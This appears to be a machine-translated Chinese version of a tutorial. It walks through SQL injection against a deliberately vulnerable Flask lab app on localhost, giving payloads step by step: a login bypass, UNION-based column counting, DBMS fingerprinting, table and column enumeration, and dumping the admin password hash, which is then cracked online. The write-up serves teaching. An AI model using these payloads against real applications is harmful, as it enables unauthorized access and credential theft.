# 通过入侵易受攻击的应用程序在实践中学习 SQL 注入！—堆栈零

> 原文：<https://infosecwriteups.com/learn-sql-injection-in-practice-by-hacking-vulnerable-application-stackzero-ef7931c72aec?source=collection_archive---------1----------------------->



# 介绍

在我看来，在实践中尝试一些 SQL 注入攻击是理解这一点的最佳方式。刚刚在网上搜索，我发现建立一个实验室可能会非常漫长和棘手，尤其是对初学者来说，而且往往会导致学生放弃。
为了简化这个过程，我用 python 编写了一个可怕的 web 应用程序，名为 [SDWA](https://github.com/StackZeroSec/sdwa) (易受攻击的应用程序)。
这只是处于胚胎阶段，但我们可以用它来学习:

*   XSS
*   SQL 注入
*   命令注入

我已经在本文的[中谈到了 XSS 的部分，所以是时候关注 SQL 注入并将我们的知识付诸实践了。如果你不知道它是什么，我建议你慢慢来，看看这篇介绍。](https://medium.com/@stackzero/the-terrifying-world-of-cross-site-scripting-xss-part-2-stackzero-cc7fa7e8dcbb)

这里列出了所有关于 SQL 注入的文章，以便快速浏览:

# 带内 SQL 注入

*   [SQL 注入:您需要了解的内容](https://medium.com/codex/sql-injection-what-you-need-to-know-stackzero-abc80bc1ea5e)
*   [通过黑客攻击易受攻击的应用程序，在实践中学习 SQL 注入！](https://medium.com/bugbountywriteup/learn-sql-injection-in-practice-by-hacking-vulnerable-application-stackzero-ef7931c72aec)
*   [如何用 SQL 注入攻击进行黑客攻击！DVWA 低安全性](https://medium.com/bugbountywriteup/how-to-hack-with-sql-injection-attacks-dvwa-low-security-stackzero-9286d7d0dfd1)
*   [黑客用 SQL 注入攻击！DVWA 中等安全性](/hack-with-sql-injection-attacks-dvwa-medium-security-stackzero-d4af0a9a5f9)
*   [黑客用 SQL 注入攻击！DVWA 高安全性](/hack-with-sql-injection-attacks-dvwa-high-security-stackzero-713638840515)

# 盲人 SQL 注入

*   [打嗝组曲？不用了，谢谢！用 Python 实现 DVWA 中的盲 SQLi(第 1 部分)](/how-i-exploited-blind-sqli-without-using-any-tool-stackzero-396e831ecbdf)
*   [打嗝组曲？不用了，谢谢！用 Python 实现 DVWA 中的盲 SQLi(第 2 部分)](/burp-suite-no-thanks-blind-sqli-in-dvwa-with-python-part-2-stackzero-a5c0acf431dc)
*   [打嗝组曲？不用了，谢谢！用 Python 实现 DVWA 中的盲 SQLi(第 3 部分)](/burp-suite-no-thanks-blind-sqli-in-dvwa-with-python-part-3-stackzero-911545003f01)

# 装置

正如我在介绍中所说的，我试图使安装过程尽可能地简单，无论如何，它需要一些简单的步骤:

*   有一个可用的虚拟机(这是可选的，但强烈建议)，我建议 Kali Linux，如果你没有，尝试按照[这个教程](https://www.stackzero.net/how-to-install-kali-linux-on-virtualbox-in-a-few-minutes/)。另一个选择是从[这里](https://www.kali.org/get-kali/#kali-virtual-machines)下载预建的 Virtualbox 映像。
*   从 GitHub 的[链接](https://github.com/StackZeroSec/sdwa)中克隆存储库，方法是从终端向您选择的目录中键入以下命令:
    `git clone [https://github.com/StackZeroSec/sdwa](https://github.com/StackZeroSec/sdwa)`
*   用这个命令安装所有的依赖项:
    `pip install -r requirements.txt`
*   创建数据库:
    `python db/setup_db.py`
*   在终端上键入以下命令运行应用程序:
    `flask run`

此时，打开您的浏览器(如果您遵循了本教程，请使用 Firefox)并在搜索 url 栏中键入该地址:
*http://localhost:5000*或 *http://127.0.0.1:5000*

如果您做的一切都正确，您应该会看到这个最小的屏幕:



这意味着应用程序正在工作，我们已经准备好在实践中了解一个真正的 SQL 注入是如何工作的。
所以让我们进入主题的核心吧！

# 登录

整个应用程序非常简单，唯一的目的是让人们更好地理解 SQLi 是如何工作的。但是第一阶段非常简单:只不过是一个小小的热身。

在主页上点击“试用”后，链接会将我们带到一个登录页面。



很容易猜测，在没有任何关于用户名和密码的提示的情况下，目标是利用漏洞进入内部。

我们要做的第一件事是在两个字段中的一个插入单引号，结果是一个内部错误。这可能暗示存在 SQLi 漏洞。



此时，我们可以尝试我们在[上一篇关于 SQL 注入的文章](https://www.stackzero.net/what-is-sql-injection/)中学到的东西，并付诸实践。

因此，我们可以想象服务器正在运行类似于下面的查询:

```
SELECT * 
FROM USERTABLE 
WHERE username='your_user_input' AND password='your_password_input'
```

显然，我们对数据库一无所知，但我们可以想象，如果查询给出一个结果，我们就在，所以让我们试着让它总是真的。
我们的想法是操纵我们的输入，以便得到这样的结果:

```
SELECT * 
FROM USERTABLE 
WHERE username='random_input' OR 1=1 -- 'AND password='random_password'
```

在这种情况下，双破折号表示后面是一个注释，无论如何，语法取决于 DBMS，在出现错误的情况下，我们应该尝试猜测我们的目标是什么。

因此，让我们尝试通过键入以下内容登录(密码只是一个随机字符):



而且很管用！结果是下面的页面:



正如警报所说，我们是作为普通用户进入的，但我们在下一段要做的是利用一个新的漏洞并作为管理员进入！

# 实践中的 SQL 注入:如何使用联合条款

在这个阶段，我们可以读取一个输出，因此收集关于数据库的信息似乎很容易。在这一点上，我们的目标显然是以管理员身份访问。

只需看一眼，我们就能猜到用户名和密码在 product 表之外的表中。所以我们需要知道的是:

*   products 表的列数(可以在相同数量的列之间进行联合)
*   数据库管理系统(MySql，SQLite，PostgreSQL，Oracle，微软…)
*   包含用户名和口令的表的名称
*   用户表字段的名称

# 涉及多少列？

为了完成第一个任务，我们主要有两种技术:

*   **ORDER BY** :我们可以尝试一系列的 ORDER BY，直到出现错误，这是该指标超出范围的信号:

```
' ORDER BY 1-- 
' ORDER BY 2-- 
' ORDER BY 3-- ...
```

*   **联合选择**:另一种技术包括发送一个带有越来越多的空值的联合选择(甚至像数字 1 这样的常量值也可以)。这样，只有当“NULL”值的数量等于表的列数时，我们才不会得到错误

```
' UNION SELECT NULL-- 
' UNION SELECT NULL,NULL-- 
' UNION SELECT NULL,NULL,NULL-- ...
```

仅仅通过尝试“ORDER BY”方法，即使索引为 1，我们也会得到一个错误，所以这可能不是正确的方法。
既然“联合选择”技术似乎更有前途，那我们就试试那个吧



这项技术没有辜负我们的期望，列数是 4，我们可以继续下一步。

# 目标 DBMS 是什么？

让我们的生活变得更容易的是知道我们的目标是什么数据库。
有许多方法可以做到这一点，在这种情况下，我们利用不同的查询语法来返回版本。

以下是不同语法的列表:

*   **神谕** : `SELECT version FROM v$instance`
*   **微软** : `SELECT @@version`
*   **PostgreSQL** : `SELECT version()`
*   **MySQL**
*   **SQLite** : `SELECT sqlite_version()`

知道包含产品的表有四列，我们可以设计查询来猜测什么是 DBMS。

输入应该是这样的:

```
' UNION SELECT 1, 1, 1, version_request --
```

唯一没有返回错误的查询是 SQLite 查询，所以我们有了另一个有价值的信息。

```
' UNION SELECT 1, 1, 1, sqlite_version() --
```



# 获取表的名称

在我们的 SQL 注入之旅的这一点上，我们需要知道表的名称，但是在开发应用程序之前，我将向您展示如何在 SQLite 中使用查询来做到这一点。

```
SELECT name 
FROM sqlite_schema 
WHERE type ='table' AND name NOT LIKE 'sqlite_%'
```

因此，在下一步中，我们希望将结果显示到我们的表中。
我们可以通过 UNION SELECT 做到这一点，这一点我们已经很清楚了。这将是我们的输入:

```
' UNION SELECT 1, 1, 1,name FROM sqlite_schema WHERE type ='table' AND name NOT LIKE 'sqlite_%'--
```

上面的查询将让应用程序提示属于该应用程序的所有表，这将是结果。



我们感兴趣的表是名为“users”的表，我们的调查还需要一个步骤，我们可以进一步进入我们的过程以获得管理员凭证。

# 获取列的字段

这是我们在将它传递给真正的攻击之前需要的最后一个信息，让我们快速刷新一下获取 SQLite3 中的列名的方法:

```
SELECT name FROM pragma_table_info('table_name');
```

现在，您应该很容易理解如何构造我们的输入，它将是:

```
' UNION SELECT 1, 1, 1, name FROM pragma_table_info('users') --
```

就这些，现在点击“搜索”按钮，结果如下:



# SQL 注入获取用户名和密码

在这个阶段，我们希望获得管理员的用户名和密码。
可以想象，这项工作与我们迄今为止所做的并没有太大的不同。
让我们试试我们的 UNION SELECT 查询，它甚至会显示字段“admin”代表什么。

为了利用漏洞，我们需要插入以下输入:

```
' UNION SELECT 1, username, password,admin FROM users --
```

输出将是:



密码看起来像 md5 输出，但它太短了，甚至“ *flask_admi* ”用户名似乎在 10 个字符后被截断。所以很可能有一个功能不允许你看到完整的密码。

在职业生涯中你会发现很多类似的问题，所以要尽量有创意。在这种情况下，我选择使用 sqlite3 的函数`substr( string, start, length)`，拆分 flask_admin 的密码(我猜应用程序已经截断了最后一个字符)。

我将尝试运行一些查询，我事先不知道正确的顺序，因此与其浪费时间去推断，我将尝试运行四个单独的查询并记录结果:

```
' UNION SELECT 1, username, substr(password, 0, 10), admin FROM users -- 
' UNION SELECT 1, username, substr(password, 10, 10), admin FROM users -- 
' UNION SELECT 1, username, substr(password, 20, 10), admin FROM users -- 
' UNION SELECT 1, username, substr(password, 30, 3), admin FROM users --
```

下面是结果之一:



通过运行四个查询并连接结果，我们得到:

**2138 cb5b 0302 e 84382 dd9b 3677576 b24**

我们有散列密码，但我们需要进入最后一步，破解管理员的密码。

# 破解密码

Hash 不是一个可逆函数，无论如何，你可以在网上找到很多预先计算的查找表，它们可以在几秒钟内破解一个弱密码。

我最喜欢的一个是 [CrackStation](https://crackstation.net/) ，所以点击链接，把你找到的哈希密码放入文本输入，求解 capcha，破解哈希！



密码已找到，因此此时您只需注销并尝试使用这些凭据以管理员身份登录:

*   **用户名** : flask_admin
*   **密码:**密码@123

瞧，你已经以管理员身份登录了！



# 结论

我希望你玩得开心，并通过开发这个应用程序学到了一些东西。如果你喜欢我的作品，请在 Medium 上关注我，并访问我的博客。

我想制作更多这样的内容，如果你欣赏我的工作，请支持我，关注我所有的社交活动！

*原载于 2022 年 7 月 31 日 https://www.stackzero.net**[*。*](https://www.stackzero.net/learn-sql-injection-in-practice-by-hacking-vulnerable-application/)*

**来自 Infosec 的报道:Infosec 上每天都会出现很多难以跟上的内容。* [***加入我们的每周简讯***](https://weekly.infosecwriteups.com/) *以 5 篇文章、4 个线程、3 个视频、2 个 Github Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！**